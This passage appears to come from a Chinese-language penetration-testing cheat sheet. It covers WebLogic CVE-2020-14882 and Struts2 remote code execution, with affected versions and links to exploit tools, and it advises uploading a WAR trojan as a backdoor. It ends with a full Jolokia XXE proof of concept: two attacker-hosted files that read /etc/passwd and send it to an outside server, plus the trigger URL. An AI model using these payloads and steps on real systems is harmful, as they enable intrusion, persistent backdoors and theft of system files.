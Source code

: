 ```
```
-Console HTTP 协议远程代码执行漏洞（CVE-2020-14882）
>OracleWeblogicServer如下版本  
10.3.6.0.0  
12.1.3.0.0  
12.2.1.3.0  
12.2.1.4.0  
14.1.1.0.0    
**上述exp地址**：https://github.com/0xn0ne/weblogicScanner
```

#### 5. war 后门文件部署

```
进入后台，上传war 格式木马即可
```

七. struts
---------

#### 1. 代码执行

```
>影响版本
>S2-057 CVE-2018-11776Struts2.3 to 2.3.34，Struts2.5 to 2.5.16   
    S2-048 CVE-2017-9791Struts2.3.X
    S2-046 CVE-2017-5638Struts2.3.5-2.3.31,Struts2.5-2.5.10      
    S2-045 CVE-2017-5638Struts2.3.5-2.3.31,Struts2.5-2.5.10      
    S2-037 CVE-2016-4438Struts2.3.20-2.3.28.1      
    S2-032 CVE-2016-3081Struts2.3.18-2.3.28      
    S2-020 CVE-2014-0094Struts2.0.0-2.3.16      
    S2-019 CVE-2013-4316Struts2.0.0-2.3.15.1      
    S2-016 CVE-2013-2251Struts2.0.0-2.3.15      
    S2-013 CVE-2013-1966Struts2.0.0-2.3.14      
    S2-009 CVE-2011-3923Struts2.0.0-2.3.1.1        
    S2-005 CVE-2010-1870Struts2.0.0-2.1.8.1    
    exp地址：https://github.com/Lucifer1993/struts-scan
![](res/2020-11-30-10-30-39.png)
```

八. java spring
--------------

#### 1. Jolokia xxe

```
poc
    step1:构造文件
```
    第一个文件 logback.xml
    <?xml version="1.0" encoding="utf-8" ?>
    <!DOCTYPE a [ <!ENTITY % remote SYSTEM "http://你的服务器/fileread.dtd">%remote;%int;]>
    <a>&trick;</a>
    构造第二个文件 fileread.dtd
    <!ENTITY % d SYSTEM "file:///etc/passwd">
    <!ENTITY % int "<!ENTITY trick SYSTEM ':%d;'>">
    ```
    step2:将两个文件传入公网服务器
    step3:访问`目标/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/你的服务器!/logback.xml`
```

